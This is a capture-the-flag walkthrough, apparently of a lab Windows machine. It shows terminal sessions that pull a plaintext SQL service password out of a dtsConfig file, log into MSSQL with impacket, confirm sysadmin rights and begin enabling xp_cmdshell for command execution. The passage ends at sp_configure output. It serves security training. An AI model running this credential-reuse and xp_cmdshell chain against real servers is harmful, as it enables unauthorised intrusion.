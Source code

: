 ```console
-rw-r--r--  1 kali kali  609 Apr 13 10:37 prod.dtsConfig
drwxr-xr-x 10 kali kali 4096 Apr 13 10:37 Responder
-rw-r--r--  1 kali kali 8320 Apr 12 17:37 starting_point_DjikstraCS.ovpn                                                                                                                       
┌──(kali㉿kali)-[~/Downloads]
└─$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

There is a password and username hidden in there!

Username: `ARCHETYPE\sql_svc`

Password: `M3g4c0rp123`

Now we just need to find a way to connect. We can use [impacket](https://github.com/SecureAuthCorp/impacket) for this.

```console
┌──(kali㉿kali)-[~/Downloads/impacket]
└─$ mssqlclient.py ARCHETYPE/sql_svc@10.129.106.199 -windows-auth 
Impacket v0.9.25.dev1+20220407.165653.68fd6b79 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

We are in!

Let's gain a foothold.

```console
SQL> SELECT is_srvrolemember('sysadmin');
              
-----------   
          1   

SQL> xp_cmdshell "whoami"
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL> EXEC sp_configure 'show advanced options', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> sp_configure;
name                                      minimum       maximum   config_value     run_value   

```